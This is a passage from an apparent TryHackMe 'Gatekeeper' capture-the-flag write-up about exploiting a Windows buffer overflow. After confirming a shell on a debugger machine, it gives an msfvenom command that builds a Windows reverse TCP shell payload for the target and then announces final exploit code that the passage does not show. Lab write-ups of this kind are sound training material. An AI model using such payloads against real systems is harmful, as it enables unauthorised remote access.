 If all is coded correctly, we've got back a shell.

We need to remember this shell is from our **Debugger Machine**.

![nc connect](/images/THM/gatekeeper/Captura31.PNG)

Now is time to generate the payload to the **target machine**.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<our IP> LPORT=<our port> EXITFUNC=thread -b "\x00\x0a" -f c
```

![payload target](/images/THM/gatekeeper/Captura32.PNG)

Here is the sample of the final exploit code, remember to change the IP target!
